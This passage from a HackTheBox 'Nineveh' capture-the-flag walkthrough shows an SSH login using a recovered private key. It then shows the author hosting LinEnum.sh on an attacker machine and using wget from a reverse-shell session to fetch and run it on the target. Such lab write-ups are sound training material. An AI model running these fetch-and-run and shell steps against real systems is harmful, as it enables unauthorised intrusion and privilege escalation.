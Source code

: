 ```bash
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# ssh -i nineveh.priv amrois@10.10.10.43                                              
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
ED25519 key fingerprint is SHA256:kxSpgxC8gaU9OypTJXFLmc/2HKEmnDMIjzkkUiGLyuI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.43' (ED25519) to the list of known hosts.
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ 
```

## Shortcut

Now that we gained access into the system, lets run a `LinEnum` script!

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# mousepad LinEnum.sh
                                                                            
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [28/Jun/2022 22:47:21] "GET /LinEnum.sh HTTP/1.1" 200 -

- Netcat Listener -
www-data@nineveh:/var/www/html/department$ cd /tmp
cd /tmp
www-data@nineveh:/tmp$ wget http://10.10.14.29/LinEnum.sh
wget http://10.10.14.29/LinEnum.sh
--2022-06-28 09:47:20--  http://10.10.14.29/LinEnum.sh
Connecting to 10.10.14.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... .....     100% 1.95M=0.02s

2022-06-28 09:47:20 (1.95 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@nineveh:/tmp$ chmod +x LinEnum.sh
chmod +x LinEnum.sh

www-data@nineveh:/tmp$ ./LinEnum.sh
./LinEnum.sh
...
```
